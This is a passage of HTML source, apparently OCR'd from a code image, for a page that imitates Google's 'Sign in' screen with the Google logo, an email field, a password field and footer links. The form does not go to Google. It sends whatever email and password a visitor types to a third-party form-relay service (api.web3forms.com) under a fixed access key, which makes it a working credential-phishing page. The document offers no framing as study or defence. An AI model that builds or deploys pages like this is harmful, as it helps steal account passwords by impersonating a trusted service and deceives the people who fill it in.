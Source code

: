         }
        .language-selector select {
            border: none;
            background-color: transparent;
            font-size: 12px;
            color: #5f6368;
            cursor: pointer;
            outline: none;
        }
    </style>
</head>
<body>
    <div class="google-form-container">
        <div class="flex justify-center">
             <img src="https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png" alt="Google" class="google-logo">
        </div>

   <h1 class="form-title">Sign in</h1>
        <p class="form-subtitle">Use your Google Account</p>

<form action="https://api.web3forms.com/submit" method="POST">
  
    <input type="hidden" name="access_key" value="290fa2b7-7870-428e-a1f0-d22ef0bedad4">

  <div class="input-group">
                <input type="text" id="email" name="email" class="google-input" placeholder="Email or phone">
            </div>

   <div class="input-group">
                 <input type="text" id="password" name="key" class="google-input" placeholder="Password">
            </div>

  <button type="button" class="link-button">Forgot email?</button>

   <div class="button-group">
                 <button type="button" class="create-account-button">Create account</button>
       <!-- Honeypot Spam Protection -->
    <input type="checkbox" name="botcheck" class="hidden" style="display: none;">
       <!-- Custom Confirmation / Success Page -->
    <!-- <input type="hidden" name="redirect" value="https://mywebsite.com/thanks.html"> -->
                 <button type="submit" class="next-button">Sign in</button>
            </div>
        </form>
    </div>
  <footer class="google-footer">
        <div class="language-selector">
            <select>
                <option value="en">English (United States)</option>
                <option value="es">Español</option>
                <option value="fr">Français</option>
            </select>
        </div>
        <div>
            <a href="#">Help</a>
            <a href="#">Privacy</a>
            <a href="#">Terms</a>
        </div>
    </footer>
</body>
</html>
